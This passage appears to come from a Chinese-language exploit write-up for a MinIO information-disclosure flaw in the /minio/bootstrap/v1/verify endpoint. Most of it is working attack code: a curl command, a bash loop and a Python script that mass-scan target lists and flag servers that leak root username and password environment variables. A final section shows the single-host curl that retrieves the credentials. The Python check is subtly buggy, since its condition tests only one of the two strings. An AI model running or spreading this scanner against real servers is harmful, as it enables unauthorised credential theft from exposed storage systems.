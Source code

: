 poc2

```bash
# 需要开集群模式
curl -XPOST x.x.x.x:9000/minio/bootstrap/v1/verify
# 简单批量检测
for i in `cat url.txt`; do echo $i;curl -XPOST $i/minio/bootstrap/v1/verify --connect-timeout 3; done
```

poc3

```python
#code by step 垃圾实现，新建tagets.txt设把MinIO的api端口链接放到tagets.txt中。
#很垃圾的实现就是了

import requests
import json

# 打开保存目标 URL 的文本文件
with open('targets.txt', 'r') as f,open('results.txt', 'w') as f_out:
    # 逐行读取目标 URL 并发送 GET 请求
    for line in f:
        # 删除行末的换行符
        target = line.rstrip('\n')

        # 发送 GET 请求并获取响应
        try: 
            response = requests.post(target+"/minio/bootstrap/v1/verify", data={'key': 'value'},timeout=7)
            # 判断响应中是否包含特定字符串并输出结果
            if 'MINIO_ROOT_PASSWORD' and 'MINIO_ROOT_USER' in response.text:
                print(f"Found 'vulnerable' in {target}")
                f_out.write(f"Found 'vulnerable' in {target}\n")
            else: 
                print("not vulnerable")
        except requests.exceptions.RequestException as e:
            # 如果连接失败，则打印错误信息并继续到下一个目标
            print(f"Connection error")
            continue
```

### 3.3 本地利用

​	用上述的poc批量扫描探测漏洞是否存在：

<img src="https://pb-1307852621.cos.ap-chengdu.myqcloud.com/typora/202304171957787.png" alt="poc批量扫描" style="zoom:50%;" />



​	单个检测利用：

​	命令行直接访问漏洞地址：`curl 'http://localhost:9000/minio/bootstrap/v1/verify' -XPOST`
即可查看敏感信息:

<img src="https://pb-1307852621.cos.ap-chengdu.myqcloud.com/typora/202403042039468.png" style="zoom:50%;" />
